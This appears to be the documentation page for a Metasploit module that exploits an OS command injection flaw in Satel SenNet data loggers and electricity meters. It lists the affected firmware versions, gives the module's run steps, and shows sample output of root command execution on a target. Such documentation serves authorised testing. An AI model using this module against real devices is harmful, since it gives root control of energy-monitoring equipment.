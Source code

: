This module exploits an OS Command Injection vulnerability in Satel SenNet Data Logger and Electricity Meters to perform arbitrary command execution as 'root'.

The following versions of SenNet Data Logger and Electricity Meters, monitoring platforms, are affected:
1. SenNet Optimal DataLogger V5.37c-1.43c and prior,
2. SenNet Solar Datalogger V5.03-1.56a and prior, and
3. SenNet Multitask Meter V5.21a-1.18b and prior.

## Verification Steps

1. Do: ```use auxiliary/scanner/telnet/satel_cmd_exec```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/telnet/satel_cmd_exec
msf auxiliary(satel_cmd_exec) > set rhosts 1.3.3.7
msf auxiliary(satel_cmd_exec) > run

[*] 1.3.3.7:5000   - Sending command now - id;
[+] 1.3.3.7:5000   - uid=0(root) gid=0(root)
[+] 1.3.3.7:5000   - File saved in: /root/.msf4/loot/20000000000003_1.3.3.7_cmdexeclog_12345.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
